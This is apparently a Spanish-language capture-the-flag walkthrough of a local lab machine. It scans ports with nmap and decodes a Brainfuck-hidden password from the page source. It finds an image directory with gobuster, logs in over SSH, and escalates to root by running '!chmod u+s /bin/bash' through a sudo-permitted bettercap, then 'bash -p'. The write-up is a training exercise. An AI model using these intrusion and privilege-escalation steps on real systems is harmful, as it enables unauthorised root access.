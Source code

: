 Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```
![alt text](image.png)

Vemos que nos mustra un servicio apache en el puerto 80. Vamos a ver que nos esconde.
![alt text](image-1.png)

Vemos que nos muestra la página por defecto  de apache. Vamos a analizar el código fuente. Vemso que al final nos muestra el siguiente código.
```
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
```
![alt text](image-4.png)

Vamos a buscar de que trata.
![alt text](image-5.png)

Vemos que trata del lenguaje `Brainfuck`. Vamos a decodificar el mensaje.
![alt text](image-6.png)

Vemos que el mensaje es `bebeaguaqueessano`. Esto es una potencial password.

Ahora vamos a realizar un fuzzing web para ver si hay algun directorio o archivo oculto.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r --no-error -b 404,403 -x txt,html,php
```
![alt text](image-2.png)

Vemos que hay una ruta llamada `/imagenes`, vamos a ver que nos esconde. 
![alt text](image-3.png)

Vemos que hay una imagen llamada `agua_ssh.jpg`. Puede ser que contenga las credenciales del servicio `ssh`. Así que nos vamos a descargar la imagen para analizarla.

Tras analizarla, vemos que no contiene nada más. Ahora vamos a entrar por ssh.
```
ssh agua@172.17.0.2
password: bebeaguaqueessano
```
![alt text](image-7.png)

Ahora vamos a ver si hay algun binario con permisos de administrador.
```
sudo -l
```
![alt text](image-8.png)

Vamos a ejecutar el binario para ver que hace.
```
sudo /usr/bin/bettrcap
```
![alt text](image-9.png)

Vemos que es como una herramienta interactiva, vamos a ver si corresponde al comando `help`.
![alt text](image-10.png)

Vemos que en la penúltima opción nos permite ejecutar comandos.
```
!chmod u+s /bin/bash
```
![alt text](image-11.png)

Ahora saldremos y nos lanzaremos la shell de administrador.
```
exit

bash -p
```
![alt text](image-12.png)